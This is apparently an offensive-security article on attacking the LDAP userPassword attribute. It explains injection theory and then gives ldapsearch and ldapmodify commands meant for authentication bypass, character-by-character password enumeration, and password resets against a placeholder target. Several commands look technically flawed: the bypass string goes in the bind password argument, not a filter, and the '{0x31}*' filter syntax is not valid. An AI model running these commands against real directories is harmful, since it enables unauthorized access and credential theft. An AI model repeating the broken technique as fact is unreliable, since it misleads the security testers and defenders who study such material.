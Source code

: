 ```yaml
---
title: Exploiting LDAP userPassword for Security Bypasses
description: Learn to exploit LDAP userPassword attribute through injection and manipulation
  techniques for security bypasses.
keywords:
- LDAP exploitation
- userPassword attribute
- authentication bypass
- password hash extraction
- LDAP injection techniques
- octet string matching
- credential extraction
---
```


# Exploiting userPassword Attribute

## Context

This article aims to demonstrate the exploitation of the LDAP `userPassword` attribute through injection and matching techniques for authentication bypass and credential extraction. Before proceeding, readers should be familiar with the LDAP protocol fundamentals, the structure and semantics of the `userPassword` attribute, password hashing algorithms used in LDAP, and basic LDAP injection techniques.

## Theory

### Octet String Matching and LDAP Comparison Mechanisms

LDAP utilizes octet string matching as a method to compare binary or string values, which is a critical process when evaluating `userPassword` entries. The protocol employs specific matching rules, such as `octetStringOrderingMatch` (OID 2.5.13.18), to facilitate these comparisons. A key vulnerability arises from improper input sanitization, allowing crafted filters to manipulate `userPassword` comparisons.

### userPassword Attribute Exploitation Vectors

Exploiting the `userPassword` attribute typically involves injecting crafted filters to either bypass authentication checks or enumerate existing password values. Security weaknesses stem from the bitwise and octet-based comparison processes, potentially leaking information about the password content or its hash. Some LDAP servers may mishandle filter logic, creating opportunities for brute-force attacks or partial matching that attackers can exploit.

### Password Extraction and Manipulation via LDAP Injection

Attackers can leverage filter injection to extract password hashes or manipulate authentication logic. Applications often trust the results of LDAP filters for authentication without further verification, increasing the risk of exploitation. This trust assumption can be subverted, allowing attackers to manipulate passwords or gain unauthorized access.

## Practice

### Bypassing Authentication via userPassword Filter Injection

One method to bypass LDAP authentication is by injecting a filter that always evaluates to true. This technique allows an attacker to gain access without the need to know the actual password.

- **Command:**

  ```bash
  ldapsearch -x -h <target_ldap> -D "uid=target,ou=users,dc=example,dc=com" -w "*) (|(userPassword=*)) (|(userPassword=pass)" -b "dc=example,dc=com"
  ```

  This command injects a filter into the LDAP search query, effectively bypassing the password check.

- **Outcome:** The exploitation results in authentication bypass, granting access without valid credentials.

### Enumerating userPassword Values via Octet Matching

By using octet matching, an attacker can attempt to enumerate password values character by character.

- **Step 1:**

  ```bash
  ldapsearch -x -h <target_ldap> -b "dc=example,dc=com" '(&(uid=target)(userPassword={0}*))' userPassword
  ```

  This command checks if the password starts with a specified octet or character.

- **Step 2:**

  ```bash
  ldapsearch -x -h <target_ldap> -b "dc=example,dc=com" '(&(uid=target)(userPassword={0x31}*))' userPassword
  ```

  Here, the command uses bitwise enumeration to brute-force password values octet by octet.

- **Outcome:** Through these steps, attackers can extract or infer password or hash values.

### Bypassing Password Policy via Attribute Manipulation

An attacker with administrative privileges might manipulate the `userPassword` attribute to reset passwords, thereby bypassing policy restrictions.

- **Step 1:**

  ```bash
  ldapmodify -x -h <target_ldap> -D "cn=admin,dc=example,dc=com" -w <adminpass>
  ```

  This command logs the attacker in as an admin, preparing to modify the `userPassword` attribute.

- **Step 2:**

  ```plaintext
  dn: uid=target,ou=users,dc=example,dc=com
  changetype: modify
  replace: userPassword
  userPassword: newpassword
  ```

  The above payload replaces the target user’s password, enabling bypass of password policies.

- **Outcome:** This manipulation can reset or set user passwords, overriding policy controls.

## Tools

- **ldapsearch**
- **ldapmodify**